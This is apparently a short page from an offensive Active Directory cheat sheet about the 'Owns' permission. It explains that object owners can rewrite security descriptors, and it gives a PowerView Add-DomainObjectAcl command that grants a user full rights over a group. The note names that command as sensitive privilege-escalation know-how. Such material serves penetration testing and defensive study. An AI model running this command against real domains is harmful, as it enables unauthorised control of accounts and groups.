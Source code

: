 # Owns

## Information

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

## Exploitation

{% code overflow="wrap" %}
```powershell
# Assigning GenericAll permissions over the group
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'Core Staff' -PrincipalIdentity jdgodd -Rights All
```
{% endcode %}

For exploitation information check [`WriteDACL`](writedacl.md).
